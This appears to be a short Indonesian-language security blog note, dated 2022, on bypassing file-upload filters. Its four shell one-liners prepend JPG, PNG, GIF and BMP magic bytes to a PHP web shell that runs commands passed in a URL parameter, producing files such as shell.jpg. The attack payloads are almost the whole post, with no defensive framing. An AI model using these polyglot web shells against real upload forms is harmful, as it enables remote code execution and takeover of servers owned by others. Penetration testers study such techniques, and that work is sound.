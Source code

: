 ```yaml
---
layout: post
title: "Note: Injecting RCE into Image"
date: 2022-12-09
---
```


Karena, saya rada kesusahan untuk mengumpulkan resource jika nanti googling-googling. Dan note yang saya pakai juga tidak lengkap referensinya, maka saya kumpulkan di sini. 

Jika ada malicious upload, maka yang seharusnya dilakukan adalah memanipulasi file extension atau memanipulasi isi dari file tersebut

## JPG
```shell
echo -n -e '\xFF\xD8\xFF\xE0<?php system($_GET["cmd"]);?>.' > shell.jpg
```

## PNG
```shell
echo -n -e '\x89\x50\x4E\x47<?php system($_GET["cmd"]);?>.' > shell.png
```

## GIF
```shell
echo -n -e '\x47\x49\x46\x38<?php system($_GET["cmd"]);?>.' > shell.gif
```
## BMP
```shell
echo -n -e '\x42\x4D<?php system($_GET["cmd"]);?>.' > shell.bmp
```

## References
* https://twitter.com/0x0SojalSec/status/1599809897658724357
